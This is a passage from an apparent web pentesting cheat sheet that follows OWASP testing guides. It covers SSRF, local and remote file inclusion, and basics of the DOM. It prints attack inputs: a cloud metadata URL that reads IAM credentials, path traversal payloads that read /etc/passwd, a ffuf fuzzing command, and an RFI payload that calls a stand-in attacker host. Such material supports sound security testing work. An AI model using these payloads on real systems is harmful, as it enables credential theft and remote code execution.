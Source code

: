 ![SSRF](SSRF.png)

<http://169.254.169.254/latest/meta-data/iam/security-credentials/admin>

Source: <https://www.shorebreaksecurity.com/blog/ssrfs-up-real-world-server-side-request-forgery-ssrf/>

##### Testing for Code Injection

###### Testing for Local File Inclusion

Local file inclusion (also known as LFI) is the process of including files, that are already locally present on the server, through the exploiting of vulnerable inclusion procedures implemented in the application.

.php?file=../../../../etc/passwd
.php?file=../../../../etc/hosts

```bash
./ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -u "http://victim.com/?s=FUZZ"
```

Active Scan within ZAP perform some Local File Inclusion as well

Reference: [WSTG-INPV-11 - Testing for Local File Inclusion](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11-Testing_for_Code_Injection.html)

###### Testing for Remote File Inclusion

Remote File Inclusion (also known as RFI) is the process of including remote files through the exploiting of vulnerable inclusion procedures implemented in the application.

.php?file=<http://attacker_site/malicous_page>

Reference: [WSTG-INPV-11 - Testing for Remote File Inclusion](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.2-Testing_for_Remote_File_Inclusion.html)

###### *If you don't know, now you know: [Document Object Model](https://en.wikipedia.org/wiki/Document_Object_Model)*

Document Object Model is a cross-platform and language-independent interface that treats an XML or HTML document as a tree structure wherein each node is an object representing a part of the document.
Every item of the tree is called a node and nodes have parent/child relationships.

This allows us to manipulate what is in our HTML or XML documents with JavaScript.

In order to use JavaScript against the DOM we need to use the **document** object and its methods.

Document is an object type, so it has methods and variables:

- Method **write()**
- Method **referrer()**
- Variable **cookie**

###### *If you don't know, now you know: [Same-Origin Policy](https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy)*
